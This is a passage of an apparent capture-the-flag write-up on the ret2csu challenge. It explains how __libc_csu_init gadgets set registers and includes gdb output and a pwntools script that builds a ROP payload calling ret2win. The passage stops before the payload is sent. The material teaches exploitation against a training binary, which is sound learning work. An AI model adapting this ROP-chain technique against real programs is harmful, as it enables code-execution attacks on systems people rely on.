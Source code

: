 What now? In addition, we have `call qword` instruction that will call functions at address `r12 + rbx * 8`. As our `rbx` is 0, address is just `r12`. But what can we call? I've tried to directly call the `ret2win` function but always got the segfault. 

Reading a little bit more about this technique, I've found this [this](https://www.voidsecurity.in/2013/07/some-gadget-sequence-for-x8664-rop.html) blogpost showing us in practice how to correctly use it. 

In addition to our previous assumptions, we have to remember this.

> To effectively use mov rdx,r13 , we have to ensure that call QWORD PTR [r12+rbx*8] doesn't SIGSEGV, cmp rbx,rbp equals and most importantly value of RDX is not altered. 

Author of this post shows us that we can try to call the `__init()` function, localed using `DYNAMIC` variable. We can check that with `gdb` in our challenge. 

```text
gdb-peda$ x/5g &_DYNAMIC
0x600e20:	0x1	0x1
0x600e30:	0xc	0x400560
0x600e40:	0xd
```

As `__init` is used with `0x400560` address, our pointer would be `0x600e38`. After all of these steps, our register values should be correctly set, and we would normally place a address of `ret2win` on the stack. 

To sum up our steps:

* Call first gadget at address `0x0040089a`.
* Put the desired values at the stack.
* Register `R12` should be an pointer to `__init` address.
* Register `R15` shoud have value `0xdeadcafebabebeef`
* Register `RBX` should have value `0x00` while `RBP` `0x01`.
* Use second gadget at address `0x400880` that will put the values at correct registers.
* Keep in mind padding value that we have to place because of `add rsp, 8`.
* Put some `0x00`'s that will be popped into registers as the execution goes on.
* Place the address of `ret2win` function at the stack.

```python
from pwn import *

ret2win_adr         = 0x4007b1
first_gadget_adr    = 0x40089a
second_gadget_adr   = 0x400880
init_pointer        = 0x600e38

payload = b"A"  * 40
payload += p64(first_gadget_adr)
payload += p64(0x00)            # pop rbx
payload += p64(0x01)            # pop rbp
payload += p64(init_pointer)    # pop r12
payload += p64(0x00)            # pop r13
payload += p64(0x00)            # pop r14
payload += p64(0xdeadcafebabebeef) # pop r15
payload += p64(second_gadget_adr)
payload += p64(0x00)            # add rsp,0x8 padding
payload += p64(0x00)            # rbx
payload += p64(0x00)            # rbp
payload += p64(0x00)            # r12
payload += p64(0x00)            # r13
payload += p64(0x00)            # r14
payload += p64(0x00)            # r15
payload += p64(ret2win_adr)

ret2csu = process('./ret2csu')

# Uncomment for debugging
```
